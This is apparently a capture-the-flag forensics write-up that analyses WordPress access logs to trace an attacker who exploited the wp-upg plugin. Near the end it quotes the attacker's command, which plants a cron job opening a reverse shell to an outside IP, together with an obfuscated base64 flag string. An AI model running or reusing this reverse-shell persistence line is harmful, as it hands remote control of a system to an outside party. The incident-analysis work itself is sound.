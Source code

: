 # Explanation
We are given the following file:
* `access.log`: Wordpress server logs.

In the log file, notice there are several requests related to a WordPress website. By slowly analyzing the logs, `82.179.92.206` has performed the most requests out of the IP addresses, indicating a suspicious activity.
<br><br>
Another way is to utilize a command to find the amount of times an IP addresses was involved by the number of requests (command is from HTB write-up).
```
cat access.log | cut -d " " -f 1 | sort | uniq -c
```

![logs2](https://github.com/warlocksmurf/hacktheboo-forensics/assets/121353711/c3d22e15-bab2-4f97-bcc6-276dcd772e18)

* `cut -d " " -f 1`: The cut command splits each line of the log file into fields using a space (" ") as the delimiter. It then extracts the first field (the IP address) from each line. This isolates the IP addresses from the log entries.
* `sort`: Sorts the extracted IP addresses in ascending order.
* `uniq -c`: Counts the number of unique occurrences of each unique IP address.

# Solution
By reading the instructions, they mentioned that the attacker may have exploited a vulnerability in a plugin. 
Hence, the search can be easier by filtering the logs using "wp-content/plugins/" which is the directory storing all the plugins. Requests from 82.179.92.206 with response status code of 200 are the key to identifying the vulnerability, as these can reveal whether the attacker's attempts were successful. 

By analyzing the logs, notice how some requests suggest that the attacker has exploited the `wp-upg` plugin since the plugin was responding with 200 OK messages. Additionally, `wp-upg` has certain vulnerabilities such as CVE-2022-4060 and CVE-2023-0039

![logs1](https://github.com/warlocksmurf/hacktheboo-forensics/assets/121353711/cbaf90b2-76ea-4cf9-a21c-16d31a38cfb7)

After identifying the vulnerable plugin, the logs are analyzed further and another important log was found. These requests indicate the attacker was attempting to execute arbitrary commands on the system.

![log3](https://github.com/warlocksmurf/hacktheboo-forensics/assets/121353711/a0a70010-2524-45e7-ae42-5673a5bce28e)

One of the requests creates a cron job named `testconnect` that connects to a Command and Control (CnC) server and prints the flag.

![logs4](https://github.com/warlocksmurf/hacktheboo-forensics/assets/121353711/0220b09f-37c3-4ec7-959a-09a0cc7099fb)

![logs6](https://github.com/warlocksmurf/hacktheboo-forensics/assets/121353711/d53e3a42-73cb-4d2c-8266-dfd7b7fc07c6)

At this point, I was stuck and required help from the HTB writeup. I found out that to retrieve the flag was to decode the URL using the `testconnect` cron job again. This can be done using the command:

```
echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev
```

![logs5](https://github.com/warlocksmurf/hacktheboo-forensics/assets/121353711/2f5ed61a-f7ef-4df4-86e9-c4081ec1fb51)
